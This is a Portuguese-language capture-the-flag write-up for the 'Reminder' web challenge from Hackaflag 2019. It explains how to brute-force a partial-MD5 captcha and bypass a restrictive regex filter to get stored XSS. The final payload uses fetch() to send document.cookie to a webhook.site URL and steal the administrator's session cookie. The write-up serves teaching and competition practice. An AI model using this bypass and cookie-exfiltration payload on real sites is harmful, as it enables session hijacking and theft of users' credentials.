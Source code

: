 # Write-up: Reminder

- Desafio da etapa de Goiânia do Hackaflag 2019
- Data do desafio: 2019-06-01
- Categoria: web
- URL original: `http://68.183.31.62:3232/`

Ao acessar a URL do desafio, encontramos uma página com um campo `textarea` e um botão que carrega a mesma página, inserindo o conteúdo do campo anterior no parâmetro `data` da URL. Também temos um link para a página `/contact`.

## Página inicial

No código-fonte da página inicial, temos os seguintes trechos JavaScript:

```
<script type="text/javascript">
	window.onload=function(){
		if(!window.localStorage.getItem('data')){
			var t = location.search;
			if(/<([a-z])/i.test(unescape(JSON.parse('"'+decodeURIComponent(location.search.split("=")[1])+'"')))){
				var text = 'undefined';
			}else{
				window.localStorage.setItem('data',decodeURIComponent(location.search.split('=')[1]));
			}
		}
	}
</script>
<script id="message"></script>
<a href="contact">contact</a>
<script>
	function inMessage(message){
		regex = /^[a-z.()]+$/;

		if(regex.test(message)){
			var ms = document.getElementById('message');
    		console.log(ms);
			ms.innerHTML=unescape(message);
		}
	}

	function x(){
		var t;
		return t = {},
		window.location.search.replace("?","").split("&").forEach(function(e){
			var n;
			return n = e.split("="),
			t[n[0]] = n[1];
		}), t.message ? inMessage(t.message) : void 0
	}

	onload=function(){ x(); }
</script>
```

O primeiro trecho cria uma função que manipula o `localStorage` e atribui essa função ao método `window.onload`, que é executado quando a página termina de carregar. No entanto, o final do último trecho também sobrescreve o método `onload` (omitindo o objeto `window`), por isso a primeira função criada nunca é executada. Podemos ignorar este trecho do código.

A função `x` será executada ao carregar a página. Resumidamente, se houver um parâmetro na URL chamado `message`, a função `inMessage` será executada com `message` como argumento.

A função `inMessage` realiza um teste de expressão regular para a variável `message` e, caso a variável contenha apenas letras minúsculas e os caracteres `(`, `)` e `.`, o conteúdo será inserido na tag com id `message` (que convenientemente é uma tag `script`). Se carregarmos a página com o parâmetro `?message=alert()`, verificamos que o código é executado. No entanto, se inserirmos `?message=alert(1)`, o código não é executado porque o caractere `1` não passa no teste de expressão regular.

## Página `contact`

A página `/contact` apresenta um formulário com dois campos: um captcha e uma URL. Além do formulário, há uma string hexadecimal aleatória de 4 caracteres. O código-fonte dá a dica para resolver o captcha: `<!-- substr(md5(string),0,4) == 62d7 -->`, isto é, os 4 primeiros caracteres do hash MD5 do captcha devem ser iguais à string apresentada na página.

Por se tratar de apenas 4 caracteres hexadecimais, há apenas 16<sup>4</sup> = 65536 possibilidades, então é fácil encontrar uma colisão parcial. Este script em Python itera de 1 a 1000000 até achar um resultado compatível.

```
import sys
import hashlib

if len(sys.argv) < 2:
	print('Missing argument')

for i in range(1, 1000000):
	m = hashlib.md5()
	m.update(str(i).encode('utf-8'))
	h = m.hexdigest()[:4]
	if h == sys.argv[1][:4]:
		print(str(i) + ' - ' + h)
		break
```

Ao executar `python hash.py 62d7` obtemos o valor `11528`, que deve ser inserido no campo de captcha.

Com o captcha válido, a requisição é enviada com sucesso. Ao enviar alguma URL, obtemos a mensagem "O admin ira ver sua mensagem em breve bla bla bla...". Esta mensagem, juntamente com o código JavaScript da página inicial, sugere que é possível realizar um ataque de stored XSS para obter os cookies da sessão do administrador.

## Payload

Agora, o desafio é criar um código JavaScript que obtenha os cookies da sessão e que passe no teste da expressão regular. Não podemos fazer isso diretamente porque a expressão regular `/^[a-z.()]+$/` é muito restritiva, portanto precisamos contornar este teste. Uma função útil é a `eval`, que recebe uma string e a interpreta como JavaScript; se o parâmetro `message` for igual a `eval(location.search)`, o código executado será `?message=eval(location.search)`, que não é JavaScript válido, mas nos dá um ponto de partida. Podemos adicionar um segundo parâmetro `?message=eval(location.search)&bypass=alert("Hello!")` e tentar executá-lo mudando apenas o argumento de `eval` seguindo as limitações da expressão regular.

Podemos usar o método `split` para dividir a string, mas não podemos colocar uma string como argumento porque o caractere `"` não passaria no teste de expressão regular. Entretanto, o método `split` converte outros tipos para string, e nós podemos fazer algumas manipulações para obter apenas a parte da string que nos interessa.

- o método `split(x)` divide uma string em um array de strings separados pela variável `x` convertida para string;
- se nenhum argumento for passado, `split` retorna um array contendo a string original;
- o método `split(null)` converterá a constante `null` para a string `"null"` e retornará um array de strings separadas pela string `"null"`;
- `?message=eval(location.search.split(null))&bypass=nullalert("Hello")` retornará o array `["?message=eval(location.search.split(null))&bypass=", "alert("Hello")"]`;
- para obter o segundo elemento do array, basta usarmos o método `pop`;
- `?message=eval(location.search.split(null).pop())&bypass=nullalert("Hello")` retornará a string `"alert("Hello")"`, que é exatamente o que queremos.

O separador não deve aparecer no código a ser injetado. Por exemplo, `?message=eval(location.search.split(null).pop())&bypass=nullalert("this is null")` retornará a string `")` porque há uma segunda ocorrência da string `null`.

É possível utilizar outros separadores:

- a propriedade estática `length` retorna 1 (não sei por quê, só sei que [é assim](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/length));
- `window.name.length` retorna 0;
- `location.search.length` retorna o tamanho de `location.search`, que pode ser facilmente incrementado;
- `window.name.includes()` retorna `false`;
- `window.name.includes(window.name)` retorna `true`.

Agora podemos executar (quase) qualquer código JavaScript, sem restrição de caracteres.

Em um ataque real, como não saberíamos quando um administrador executaria o código, seria necessário ter um servidor que armazenasse as requisições enviadas. Para testes e CTFs, podemos utilizar um serviço como http://webhook.site. Este site gera uma URL com um ID aleatório no formato `http://webhook.site/{id}` e as requisições feitas para esta URL podem ser monitoradas pelo link `http://webhook.site/#!/{id}` (atenção para o acréscimo de `#!` na URL).

O comando `fetch("http://webhook.site/{id}?cookie=" + document.cookie)` insere os cookies como parâmetros de URL, que poderão ser observados pelo link anterior.

O payload final será `http://68.183.31.62:3232/?message=eval(location.search.split(null).pop())&bypass=nullfetch("http://webhook.site/{id}?cookie=" + document.cookie)` e, ao enviá-lo e verificar as chamadas realizadas, obtemos o cookie com a flag `HACKAFLAG{}`.
